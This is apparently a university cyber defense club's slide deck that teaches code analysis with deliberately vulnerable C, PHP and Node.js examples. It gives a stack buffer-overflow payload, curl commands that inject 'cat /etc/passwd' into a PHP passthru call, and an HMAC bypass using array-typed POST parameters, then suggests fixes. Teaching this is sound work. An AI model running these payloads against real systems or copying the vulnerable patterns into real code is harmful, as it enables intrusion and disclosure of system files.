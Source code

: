 #+TITLE: LUCDC: Code Analysis
#+OPTIONS: toc:nil
#+AUTHOR: Andrew Rioux
#+EMAIL: arioux@liberty.edu
#+REVEAL_ROOT: https://cdn.jsdelivr.net/npm/reveal.js
#+REVEAL_PLUGINS: (notes)
#+REVEAL_DEFAULT_SLIDE_BACKGROUND: ../common/background.png
#+REVEAL_EXTRA_CSS: ../common/theme.css
#+REVEAL_INIT_OPTIONS: transition: 'none'
#+REVEAL_TITLE_SLIDE_BACKGROUND: ../common/background.png
#+REVEAL_TITLE_SLIDE: <h1>%t</h1>
#+REVEAL_TITLE_SLIDE: %a (%e)

* About me
#+ATTR_REVEAL: :frag (appear appear appear appear)
- Andrew Rioux
- CS: Software Engineering (Sophomore)
- Software Engineer for US Navy
- LU CDC Vice President
* Presentation information
** Located at the following git repository
[[https://github.com/r-a303931/lucdc-presentations]]

** Example 1
- Build: ~docker-compose run example1_build~ (or ~make~ in [[./example1]])
- Run: ~docker-compose run example1~

** Example 2
- Start web server: ~docker-compose up example2~

* Life Goals
What do you plan to do after graduation?
#+ATTR_REVEAL: :frag appear
- Penetration testing?
- Security engineer?
- Software Engineer / Programmer?

* What are you going to deal with in your day to day job?
#+ATTR_REVEAL: :frag appear
Code!

* What we will be going over here
#+ATTR_REVEAL: :frag (appear appear appear appear appear)
- Example 1: Too simple with no safety (C)
- Example 2: Too complex with fake safety (PHP)
- What can we learn?
- Club exercise (JS)!

* Example 1: Too simple with no safety
** Source code:
#+BEGIN_SRC c
#include <stdio.h>
// It's a surprise tool that will help us later...
void shell() {
    printf("Suspicious function here...\n");
}
void get_name() {
    printf("What is your name?\n");
    char buffer[20];
    scanf("%s", buffer);
    printf("Hello, %s!\n", buffer);
}
int main() {
    get_name();
}
#+END_SRC

** How is this compiled?
#+BEGIN_SRC makefile
example1: example1.c
	gcc -no-pie --no-stack-protector -o example1 example1.c
#+END_SRC

** Options of interest
#+ATTR_REVEAL: :frag appear
- ~-no-pie~
#+ATTR_REVEAL: :frag appear
- ~--no-stack-protector~

** We know ~shell~ is bad
But it's benign....
#+ATTR_REVEAL: :frag appear
right?

** Nope!
What if your name is ~AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x46\x11\x40\x0\x0\x0\x0\x0~?

** What happened?
#+ATTR_REVEAL: :frag appear
Buffer overflow exploit!

** What could happen?
* Example 2: Too complex with fake safety
PHP has some magic variable management
#+ATTR_REVEAL: :frag appear
...can this be taken advantage of?

** Aside: How HTTP works
#+ATTR_REVEAL: :frag appear
You make a request, and get a response

*** Get me a file, please!
*** Post to this location and do a thing!
*** How do we handle that in PHP?
#+ATTR_REVEAL: :frag (appear appear)
- ~$_GET~
- ~$_POST~
** Aside: PHP in 5 seconds for C++ programmers
#+ATTR_REVEAL: :frag appear
Every variable begins with ~$~

#+ATTR_REVEAL: :frag appear
Every PHP file begins with ~<?php~

#+ATTR_REVEAL: :frag appear
No main function, everything just happens in the order it's displayed

#+ATTR_REVEAL: :frag appear
Other than that, basically C++!
** Source code: Input check
#+BEGIN_SRC php
<?php
    if (empty($_POST['hmac']) || empty($_POST['host'])) {
        header('HTTP/1.0 400 Bad Request');
        exit;
    }
#+END_SRC

** Source code: Authentication and execution
#+BEGIN_SRC php
    $secret = getenv("SECRET");

    if (isset($_POST['nonce']))
        $secret = hash_hmac('sha256', $_POST['nonce'], $secret);

    $hmac = hash_hmac('sha256', $_POST['host'], $secret);

    if ($hmac !== $_POST['hmac']) {
        header('HTTP/1.0 403 Forbidden');
        exit;
    }

    echo passthru("host ".$_POST['host']);
#+END_SRC

** Step 0: Identify host
#+ATTR_REVEAL: :frag appear
10.104.58.39

#+ATTR_REVEAL: :frag appear
Join in! [[http://10.104.58.39/ui.php]]

** Step 1: Normal Usage
#+ATTR_REVEAL: :frag fade-in-and-out
What's "normal"?

*** Usage 1:
- host: ~google.com~
- hmac: ~ad1663b82d5bdb2e1938...~

*** Usage 2:
- host: ~google.com~
- nonce: ~STUPID_NONCE~
- hmac: ~b3700dedb181ee312930...~

*** Command
#+BEGIN_NOTES
Execute command below:

[[shell:curl --data "host=google.com&hmac=ad1663b82d5bdb2e1938c368f627593f836f81bcee055f8e427b70ff2cadfa64" 127.0.0.1]]
#+END_NOTES

#+BEGIN_SRC bash
curl --data "host=google.com&hmac=ad1663b82d5bdb2e1938c368f627593f836f81bcee055f8e427b70ff2cadfa64" 10.104.58.39
#+END_SRC

** What functions are being called and variables used?
#+BEGIN_SRC php
    $secret = getenv("SECRET");

    if (isset($_POST['nonce']))
        $secret = hash_hmac('sha256', $_POST['nonce'], $secret);

    $hmac = hash_hmac('sha256', $_POST['host'], $secret);

    if ($hmac !== $_POST['hmac']) {
        header('HTTP/1.0 403 Forbidden');
        exit;
    }

    echo passthru("host ".$_POST['host']);
#+END_SRC

#+ATTR_REVEAL: :frag appear
- [[https://www.php.net/manual/en/function.getenv.php][~getenv~]]
#+ATTR_REVEAL: :frag appear
- [[https://www.php.net/manual/en/function.isset.php][~isset~]]
#+ATTR_REVEAL: :frag appear
- [[https://www.php.net/manual/en/reserved.variables.post.php][~$_POST~]]
#+ATTR_REVEAL: :frag appear
- [[https://www.php.net/manual/en/function.hash-hmac.php][~hash_hmac~]]
#+ATTR_REVEAL: :frag appear
- [[https://www.php.net/manual/en/function.header.php][~header~]]
#+ATTR_REVEAL: :frag appear
- [[https://www.php.net/manual/en/function.passthru.php][~passthru~]]

** Step 2: Bash Injection
Is ~passthru~ vulnerable to shell injections?
#+ATTR_REVEAL: :frag appear
Yes!

*** Example usage:
- host: ~google.com;cat /etc/passwd~
- hmac: ~84e26d8e32086e127a60...~

*** Command
#+BEGIN_NOTES
Execute command below:

[[shell:curl --data "host=google.com;cat /etc/passwd&hmac=84e26d8e32086e127a60626d14fd565fd25bef5aa896d22878d42051f1b28417" 127.0.0.1]]
#+END_NOTES

#+BEGIN_SRC bash
curl --data "host=google.com;cat /etc/passwd&hmac=84e26d8e32086e127a60626d14fd565fd25bef5aa896d22878d42051f1b28417" 10.104.58.39
#+END_SRC

** Step 3: HMAC Circumvention
What else is vulnerable in the code above?
#+ATTR_REVEAL: :frag appear
Is there anything magic that happens, a "feature"?

*** Did you catch it?
#+ATTR_REVEAL: :frag appear
"One feature of PHP's processing of POST and GET variables is that it automatically decodes indexed form variable names."

#+ATTR_REVEAL: :frag appear
What does this do to the types of variables used?

*** Some PHP analysis
#+ATTR_REVEAL: :frag appear
- ~element[]~: 1
- ~element[]~: 2

#+ATTR_REVEAL: :frag appear
#+BEGIN_SRC php
<?php
    var_dump($_POST);

    // array(1) {
    //     ["element"] => array(2) {
    //         [0] => string(1) "1"
    //         [1] => string(2) "2"
    //     }
    // }
#+END_SRC

*** What are the arguments this bit of code expects?
#+BEGIN_SRC php
    $secret = getenv("SECRET");

    if (isset($_POST['nonce']))
        $secret = hash_hmac('sha256', $_POST['nonce'], $secret);

    $hmac = hash_hmac('sha256', $_POST['host'], $secret);

    if ($hmac !== $_POST['hmac']) {
        header('HTTP/1.0 403 Forbidden');
        exit;
    }

    echo passthru("host ".$_POST['host']);
#+END_SRC

#+ATTR_REVEAL: :frag appear
What can we change?

#+ATTR_REVEAL: :frag (appear appear appear)
- ~hmac~
- ~host~
- ~nonce~

*** What happens to ~hash_hmac~ when we change ~$_POST['nonce']~ to an array?
#+ATTR_REVEAL: :frag appear
Let's see!

*** Commands
#+BEGIN_NOTES
[[shell:docker run -it php:7.4-apache-buster php -a]]
#+END_NOTES

#+BEGIN_SRC php
$test_value = ['1','2'];
var_dump(hash_hmac('sha256', $test_value, 'dummy'));
#+END_SRC

#+ATTR_REVEAL: :frag appear
#+BEGIN_SRC php
var_dump(hash_hmac('sha256', 'a string', NULL));
#+END_SRC

*** It works!
#+ATTR_REVEAL: :frag appear
Now what?

*** Look at the source code again...
#+BEGIN_SRC php
    $secret = getenv("SECRET");

    if (isset($_POST['nonce']))
        $secret = hash_hmac('sha256', $_POST['nonce'], $secret);

    $hmac = hash_hmac('sha256', $_POST['host'], $secret);

    if ($hmac !== $_POST['hmac']) {
        header('HTTP/1.0 403 Forbidden');
        exit;
    }

    echo passthru("host ".$_POST['host']);
#+END_SRC

*** Resulting query
#+ATTR_REVEAL: :frag (appear appear appear appear)
- host: ~google.com;cat /etc/passwd~
- hmac: ~bbf36c444a323aca2808...~
- nonce[]: 1
- nonce[]: 2

*** Command
#+BEGIN_SRC bash
curl --data "nonce[]=1&nonce[]=2&host=google.com;cat /etc/passwd&hmac=bbf36c444a323aca2808e486ea2165ff76d6f671e5dee9987007dba448230a53" 10.104.58.39
#+END_SRC
* What can we learn from both examples?
** Assume there is a problem
#+ATTR_REVEAL: :frag appear
It makes it easier to recover when there is one

** Do not trust users!
#+ATTR_REVEAL: :frag appear
Limit user input and verify it is the right format and type

** Do not trust your programming language!
#+ATTR_REVEAL: :frag appear
Learn the ins and outs of whatever language you are using

#+ATTR_REVEAL: :frag appear
Find a place to listen to news about your language of choice

* How can we secure Example 1?
** Source code:
#+BEGIN_SRC c
#include <stdio.h>
// It's a surprise tool that will help us later...
void shell() {
    printf("Suspicious function here...\n");
}
void get_name() {
    printf("What is your name?\n");
    char buffer[20];
    scanf("%s", buffer);
    printf("Hello, %s!\n", buffer);
}
int main() {
    get_name();
}
#+END_SRC
** Don't provide the option to overflow the buffer: fgets(3)
** Compare the following
#+ATTR_REVEAL: :frag appear
#+BEGIN_SRC c
int scanf(const char format, ...);
int fscanf(FILE strict stream, const char format, ...);
#+END_SRC

#+ATTR_REVEAL: :frag appear
#+BEGIN_SRC c
char *fgets(char *s, int size, FILE *stream);
#+END_SRC

#+ATTR_REVEAL: :frag appear
What's the main difference?

** Where can you find vulnerabilities and alternatives like this?
#+ATTR_REVEAL: :frag appear
DuckDuckGo and Reddit

* How can we secure Example 2?
** Source code: Authentication and execution
#+BEGIN_SRC php
    $secret = getenv("SECRET");

    if (isset($_POST['nonce']))
        $secret = hash_hmac('sha256', $_POST['nonce'], $secret);

    $hmac = hash_hmac('sha256', $_POST['host'], $secret);

    if ($hmac !== $_POST['hmac']) {
        header('HTTP/1.0 403 Forbidden');
        exit;
    }

    echo passthru("host ".$_POST['host']);
#+END_SRC

** Do not trust the types of your variables in weakly typed languages!
For PHP: [[https://www.php.net/manual/en/ref.var.php]]
** Enable strict error handling
Set strict error reporting level: [[https://www.php.net/manual/en/function.error-reporting.php]]

#+ATTR_REVEAL: :frag appear
#+BEGIN_SRC php
error_reporting(E_ALL | E_STRICT);
#+END_SRC
* What can you do to code that isn't yours?
#+BEGIN_NOTES
Include mention of DMs
#+END_NOTES

#+ATTR_REVEAL: :frag appear
Depends on the owner's code and policies

#+ATTR_REVEAL: :frag appear
Google Bug Bounty program: [[https://bughunters.google.com/about/rules/6625378258649088]]
* Wasn't this whole presentation just reverse engineering?
#+ATTR_REVEAL: :frag appear
Maybe...

#+ATTR_REVEAL: :frag appear
We need to know how to fix problems, not just identify and exploit them!

* Questions?
* Club exercise!
** Situation description
#+ATTR_REVEAL: :frag appear
You are given a Node.js 16 server which provides user data

#+ATTR_REVEAL: :frag appear
There is a ~/users~ folder which in turn has folders which contain user files

#+ATTR_REVEAL: :frag appear
The server has to take the following parameters:

#+ATTR_REVEAL: :frag appear
- userId (required): A user ID number
- file (optional): The file to pull. Defaults to user.json

** Challenge code
#+BEGIN_SRC js
// Node.js 16
const fs   = require('node:fs');
const http = require('node:http');
const Url  = require('node:url');
const path = require('node:path');

const server = http.createServer((req, res) => {
    if (req.url.startsWith('/user/')) {
        const url = new Url.URL(`http://${req.headers.host}${req.url}`);

        if (url.searchParams.get('userId') && !isNaN(parseInt(url.searchParams.get('userId')))) {
            // Each user has a folder, go into that folder and get their user.json file
            // and return the text
            const id = url.searchParams.get('userId');
            const userFile = url.searchParams.get('file') ?? 'user.json';

            const filePath = path.resolve('/users', id, userFile);

            fs.readFile(filePath, (err, text) => {
                if (err) throw err;

                res.write(text.toString());
                res.end();
            });
        } else {
            res.statusCode = 400;
            res.end();
        }
    } else {
        res.statusCode = 404;
        res.end();
    }
});

server.listen(8000);
#+END_SRC

** Code is located in same GitHub repository
#+ATTR_REVEAL: :frag appear
[[https://github.com/r-a303931/lucdc-presentations]]

#+ATTR_REVEAL: :frag appear
~2022-02-03/challenges/challenge.js~

** Your challenge:
Come up with a fix!

Message me your fix in Discord (Andrew#3967)
